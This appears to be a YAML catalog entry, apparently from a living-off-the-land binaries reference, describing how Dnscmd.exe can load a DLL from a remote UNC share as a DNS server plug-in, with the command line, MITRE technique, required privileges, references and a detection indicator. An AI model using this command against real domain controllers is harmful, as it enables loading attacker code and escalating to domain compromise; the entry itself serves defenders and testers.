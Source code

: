 ```yaml
---
name: Dnscmd.exe
description: A command-line interface for managing DNS servers
functions:
  execute:
    - description: Adds a specially crafted DLL as a plug-in of the DNS Service. This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the reference links for DLL details.
      code: dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
      mitreid: T1035
      mitrelink: https://attack.mitre.org/wiki/Technique/T1035
      operatingsystem: Windows server
      privileges: DNS admin
      usecase: Remotly inject dll to dns server
resources:
    - resource: https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
    - resource: https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
    - resource: https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
    - resource: https://twitter.com/Hexacorn/status/994000792628719618
    - resource: http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
fullpath:
    - path: C:\Windows\System32\Dnscmd.exe
    - path: C:\Windows\SysWOW64\Dnscmd.exe
detection:
  - IOC: Dnscmd.exe loading dll from UNC path
acknowledgement:
  - Person: Shay Ber
    Handle: ''
  - Person: Dimitrios Slamaris
    Handle: '@dim0x69'
  - Person: Nikhil SamratAshok
    Handle: '@nikhil_mitt'
---
```

